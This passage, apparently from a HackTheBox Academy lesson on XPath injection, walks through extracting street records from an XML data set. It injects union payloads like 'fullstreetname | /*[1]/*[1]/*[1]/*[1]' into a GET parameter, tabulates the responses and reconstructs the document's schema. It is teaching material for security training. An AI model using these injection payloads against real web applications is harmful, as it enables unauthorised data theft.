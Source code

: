 From the above results, we can deduce that the schema depth for the street data is `4`:

![image](https://academy.hackthebox.com/storage/modules/204/dataexfil_8.png)

This allows us to start exfiltrating data by increasing the position in the last predicate until no more data can be retrieved:

| Value of the `f` GET parameter | Response |
| --- | --- |
| `fullstreetname | /*[1]/*[1]/*[1]/*[1] ` | `01ST ST` |
| `fullstreetname | /*[1]/*[1]/*[1]/*[2] ` | `01ST` |
| `fullstreetname | /*[1]/*[1]/*[1]/*[3] ` | `ST` |
| `fullstreetname | /*[1]/*[1]/*[1]/*[4] ` | `No Results!` |

We successfully exfiltrated information about the first street in the data set. The three values seem to be the `long street name`, the `short street name`, and a `street type`. We can thus fill in some of the placeholders of the XML schema from the previous section. However, remember that we still do not know the exact node names. We are just trying to create an overview of the structure of the XML document:

```xml
<a>
	<b>
		<street>
			<fullstreetname>01ST ST</fullstreetname>
			<streetname>01ST</streetname>
			<street_type>ST</street_type>
		</street>
	</b>
</a>

```

We can now extract information about the second street in the data set by incrementing the second to last position predicate in our injected payload like so:

| Value of the `f` GET parameter | Response |
| --- | --- |
| `fullstreetname | /*[1]/*[1]/*[2]/*[1] ` | `02ND AVE` |
| `fullstreetname | /*[1]/*[1]/*[2]/*[2] ` | `02ND` |
| `fullstreetname | /*[1]/*[1]/*[2]/*[3] ` | `AVE` |
| `fullstreetname | /*[1]/*[1]/*[2]/*[4] ` | `No Results!` |

We can do this until we have exfiltrated information about all streets. However, since we are not interested in streets, let us see if the XML document contains other data sets. Incrementing the first position predicate in the payload makes little sense, as this is the document root, and valid XML documents only contain a single document root. However, we can alter the second position predicate to find additional data sets within the XML document. Remember that we need to determine the schema depth again, as it might differ from the depth of the streets data set. To illustrate this, consider the following sample XML document:

